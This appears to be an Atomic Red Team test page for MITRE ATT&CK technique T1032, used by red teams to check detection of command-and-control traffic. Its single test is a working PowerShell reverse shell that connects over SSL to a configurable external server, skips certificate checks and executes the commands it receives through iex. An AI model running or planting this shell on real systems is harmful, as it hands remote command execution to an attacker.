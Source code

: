 # T1032 - Standard Cryptographic Protocol
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1032)
<blockquote>Adversaries may explicitly employ a known encryption algorithm to conceal command and control traffic rather than relying on any inherent protections provided by a communication protocol. Despite the use of a secure algorithm, these implementations may be vulnerable to reverse engineering if necessary secret keys are encoded and/or generated within malware samples/configuration files.</blockquote>

## Atomic Tests

- [Atomic Test #1 - OpenSSL C2](#atomic-test-1---openssl-c2)


<br/>

## Atomic Test #1 - OpenSSL C2
Thanks to @OrOneEqualsOne for this quick C2 method.
This is to test to see if a C2 session can be established using an SSL socket.
More information about this technique, including how to set up the listener, can be found here:
https://medium.com/walmartlabs/openssl-server-reverse-shell-from-windows-client-aee2dbfa0926

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | IP of the external server | String | 127.0.0.1|
| server_port | The port to connect to on the external server | String | 443|


#### Attack Commands: Run with `powershell`! 
```
$server_ip = #{server_ip}
$server_port = #{server_port}
$socket = New-Object Net.Sockets.TcpClient('#{server_ip}', #{server_port})
$stream = $socket.GetStream()
$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
$sslStream.AuthenticateAsClient('fake.domain', $null, "Tls12", $false)
$writer = new-object System.IO.StreamWriter($sslStream)
$writer.Write('PS ' + (pwd).Path + '> ')
$writer.flush()
[byte[]]$bytes = 0..65535|%{0};
while(($i = $sslStream.Read($bytes, 0, $bytes.Length)) -ne 0)
{$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data | Out-String ) 2>&1;
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$sslStream.Write($sendbyte,0,$sendbyte.Length);$sslStream.Flush()}
```






<br/>

